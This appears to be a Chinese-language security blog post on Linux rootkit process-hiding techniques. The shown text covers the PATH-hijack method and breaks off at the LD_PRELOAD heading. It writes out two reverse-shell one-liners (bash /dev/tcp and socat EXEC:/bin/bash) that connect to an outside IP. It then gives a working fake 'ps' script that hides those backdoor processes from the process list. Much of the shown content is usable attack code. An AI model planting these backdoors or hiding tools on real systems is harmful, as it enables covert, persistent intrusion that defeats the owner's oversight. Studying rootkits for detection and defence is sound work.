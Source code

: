 ```yaml
---
title: 看不到的後門 - ROOTKIT 隱藏程序技巧
date: 2019-06-07 00:00:00
categories:
- [security, pwn]
tags:
- security
- pwn
- rootkit
---
```


簡報版本 : https://www.slideshare.net/ssuserd44fa2/rootkit-101-228943978

---

root + kit 的意思就是拿到 root 權限後可以用的工具包，大多是隱藏程序的技巧，所以 rootkit 也可以理解成隱藏程序技術的通稱，不過也有些不需要 root 的隱藏程序技術，今天會逐一介紹 linux 上 rootkit 的原理與實作

## 隱之呼吸壹之型 - PATH Hijack

### 條件

不需要 root

### 目標

在 `ps` 的結果中隱藏下面兩種簡單的後門

1. `bash -i >& /dev/tcp/192.168.100.100/9999 0>&1`
2. `socat TCP:192.168.100.100:9999 EXEC:/bin/bash`

### 手法

假設在 `$PATH` 環境變數中 `/usr/local/bin` 在 `/bin` 前面，所以我們可以寫一個檔案在 `/usr/local/bin/ps`，這樣 `ps` 就會執行 `/usr/local/bin/ps` 而不是 `/bin/ps`，而達到 hook 程序的效果

```bash
#!/bin/bash
/bin/ps $@ | grep -Ev '192.168.100.100|socat'
```

* `grep -Ev` 是 inverse match
* `$@` 是傳進來的參數 ( 這裡原封不動的交給 `/bin/ps` )

## 隱之呼吸貳之型 - LD_PRELOAD

### 條件

不需要 root

### 目標
